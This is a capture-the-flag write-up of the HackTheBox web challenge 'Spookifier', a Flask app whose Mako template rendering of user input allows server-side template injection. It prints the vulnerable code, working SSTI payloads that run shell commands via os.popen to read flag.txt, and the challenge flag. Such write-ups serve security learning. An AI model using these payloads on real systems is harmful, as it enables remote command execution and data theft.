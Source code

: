```yaml
---
title: HackTheBox Challenge - Spookifier
authors: Samarth
date: 2022-10-28 14:00:00 +0530
categories: [HackTheBox Challenge]
tags: [Web]
math: true
mermaid: true
---
```


![Banner](/assets/images/htb-chall/Spookifier/banner.png)

## Description

<b>There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?</b>

## Solution

Since this is a web challenge, I began by browsing the target website provided.

![Target Website](/assets/images/htb-chall/Spookifier/1.png)

I typed the name as `test`, and in response, the website gave me the same output in four different fonts.

![Name Spookifier](/assets/images/htb-chall/Spookifier/2.png)

While checking the page source and Network Tab under DevTools, I didn't find anything interesting.

The challenge itself contains some files that are necessary for the challenge. By inspecting the source code of the application, I found that the application is built using `Flask` in Python.

When a user submits the form, a GET request is sent to the root endpoint (`/`) with the submitted Halloween name passed as a query parameter (`text`).

The server handles this input by invoking a function called `spookify`, which then forwards it to another function responsible for formatting the output. The `generate_render()` function ultimately produces the final result, and its implementation is as follows:

**routes.py**
```python
from flask import Blueprint, request
from flask_mako import render_template
from application.util import spookify

web = Blueprint('web', __name__)

@web.route('/')
def index():
    text = request.args.get('text')
    if(text):
        converted = spookify(text)
        return render_template('index.html',output=converted)
    
    return render_template('index.html',output='')
```

This Flask application uses **Mako templates (`flask_mako`)** and defines a route (`/`) that takes a query parameter `text`. If `text` is provided, it processes the input using the `spookify` function, which likely transforms the text into different fonts or styles. The transformed output is then passed to the `index.html` template via `render_template`.

While inspecting `util.py`, I came across code that transforms a given text into multiple font styles and returns an HTML-rendered table displaying the results. The `spookify` function first calls `change_font`, which converts the input text into different fonts using predefined font mappings (`font1`, `font2`, etc.). The transformed text is then passed to `generate_render()`, which formats it into an HTML table using Mako's `Template.render()`. This setup allows a Flask web application to display the same text in various stylized fonts dynamically.

**util.py**
```python
def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        
		<tr>
        	<td>{2}</td>
        </tr>
        
		<tr>
        	<td>{3}</td>
        </tr>

	'''.format(*converted_fonts)
	
	return Template(result).render()

def change_font(text_list):
	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

	add_font_to_list(text_list, 'font1')
	add_font_to_list(text_list, 'font2')
	add_font_to_list(text_list, 'font3')
	add_font_to_list(text_list, 'font4')

	return all_fonts

def spookify(text):
	converted_fonts = change_font(text_list=text)

	return generate_render(converted_fonts=converted_fonts)
```
The `generate_render()` function directly passes the user input into the template without any validation, which hints that the input field is vulnerable to `Server-Side Template Injection (SSTI)`.

I will try a very simple mathematical expression 	`${7*7}` in the input field and wait for the response.

![Template Injection](/assets/images/htb-chall/Spookifier/3.png)

The response is `49` which confirms that the application is vulnerable to `SSTI`.

As we have access to the source code, we know that the flag is stored in a file named `flag.txt`. To read the flag, we first need to determine the current working directory by executing the `pwd` command.

```python
${__import__('os').popen('pwd').read()}
```

![current directory](/assets/images/htb-chall/Spookifier/4.png)

The output revealed that the current directory is `/app`, meaning we need to go up one level to access the `flag.txt` file.

```python
${__import__('os').popen('cat ../flag.txt').read()}
```

![Flag found](/assets/images/htb-chall/Spookifier/5.png)

Flag - 
```ruby
HTB{t3mpl4t3_1nj3ct10n_C4n_3x1st5_4nywh343!!}
```

[![Pwned](/assets/images/htb-chall/Spookifier/pwned.png)](https://www.hackthebox.com/achievement/challenge/337503/413)

Thanks for reading this far. If you enjoyed the writeup, do support me [__here__](https://www.buymeacoffee.com/h4xplo1t){:target="_blank"}.



